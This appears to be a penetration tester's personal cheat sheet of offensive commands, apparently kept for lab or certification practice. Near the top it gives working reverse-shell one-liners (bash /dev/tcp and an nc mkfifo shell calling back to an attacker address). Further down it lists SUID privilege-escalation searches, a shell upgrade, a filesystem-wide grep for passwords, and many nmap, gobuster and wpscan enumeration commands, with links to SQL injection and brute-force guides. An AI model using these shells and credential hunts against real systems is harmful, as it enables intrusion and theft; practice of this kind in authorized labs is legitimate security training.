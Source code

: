 # Hacker-Notes

PimpMyKali - https://github.com/Dewalt-arch/pimpmykali

Payloads - 

#!/bin/bash
bash -i >& /dev/tcp/172.16.1.1/443 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.1.1 4434 >/tmp/f

Windows reverse shell .php - https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php

SUIDS etc

find / -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;

nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oA full 192.168.180.96     

Intense Scan all tcp ports - nmap -p 1-65535 -T4 -A -v IP ADDRESS

Intense Scan UDP - nmap -sS -sU -T4 -A -v IP ADDRESS

SMB ENUM - nmap --script smb-enum-shares -p 139,445 IP ADDRESS

Vuln nmap scan - nmap --script vuln IP ADDRESS - https://www.bencode.net/posts/2018-08-10-cyber-cno-boot2root/

SQL injection cheat sheet - https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

MSSQL cheat sheet - https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

Hydra usage - https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/

Fuzzing Paths and files - https://wfuzz.readthedocs.io/en/latest/user/basicusage.html

SMB scans - https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

SMB Map - https://tools.kali.org/information-gathering/smbmap

Null sessions RPC etc - https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

upgrade Python shell - python -c 'import pty; pty.spawn("/bin/bash")'

nikto -host=http://10.10.10.29
dirb http://10.10.10.29
gobuster dir -u https://10.11.1.237/web1/web/ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
gobuster dir -u http://10.11.1.8 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
wpscan --url http://10.10.10.29/wordpress
find / -xdev -type f -print0 | xargs -0 grep -H "password"
